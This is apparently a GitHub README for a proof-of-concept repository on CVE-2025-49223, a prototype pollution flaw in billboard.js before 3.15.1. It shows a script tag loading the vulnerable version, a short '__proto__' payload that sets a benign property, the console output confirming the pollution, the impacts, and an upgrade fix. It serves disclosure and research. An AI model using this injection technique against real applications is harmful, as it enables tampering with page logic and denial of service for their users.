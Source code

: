 # 💥 CVE-2025-49223 - Prototype Pollution in Billboard.js

> billboard.js before 3.15.1 was discovered to contain a prototype pollution via the function `generate`, which could allow attackers to execute arbitrary code or cause a Denial of Service (DoS) via injecting arbitrary properties.

This repository demonstrates a **Prototype Pollution vulnerability** found in [billboard.js](https://github.com/naver/billboard.js) versions **prior to 3.15.1**, disclosed as **CVE-2025-49223**.

---

## 📌 Summary

- **Vulnerability Type**: Prototype Pollution
- **Affected Library**: [billboard.js](https://github.com/naver/billboard.js)
- **Affected Versions**: `<= 3.14.0`
- **Fixed Version**: `>= 3.15.1`
- **CVE ID**: [CVE-2025-49223](https://nvd.nist.gov/vuln/detail/CVE-2025-49223)
- **Impact**: execute arbitrary code or cause a Denial of Service

---

## 🧪 Proof of Concept (PoC)

Open [`index.html`](./index.html) in a browser and check the console log for prototype pollution attempts.

### Load vulnerable version:

```html
<script src="https://cdn.jsdelivr.net/npm/billboard.js@3.14.0/dist/billboard.pkgd.min.js"></script>
````

### Pollution Attempt:

```js
{
  ["__proto__"]: {
    polluted: "polluted_via_string_key"
  }
}
```

### Console Output:

```
🔥 string key '__proto__' -> POLLUTED! Value: polluted_via_string_key
```

This confirms that an attacker can pollute `Object.prototype`, impacting any future object created across the page.

---

## 🔥 Impact

Successful exploitation may lead to:

* Arbitrary key injection into all objects
* Tampering with chart rendering logic
* Application crashes (DoS)
* Potential for security bypass in apps relying on unsafe object merging

---



---

## 🛡️ Mitigation

* ✅ Upgrade to `billboard.js` version **3.15.1 or later**


---

## 🧱 References


* 🔗 [CVE-2025-49223 on NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-49223)
* 🔗 [Billboard.js 3.15.1 Release Notes](https://github.com/naver/billboard.js/releases/tag/3.15.1)


---


---

> ⚠️ **Disclaimer:** This PoC is for educational and research purposes only. Use responsibly.


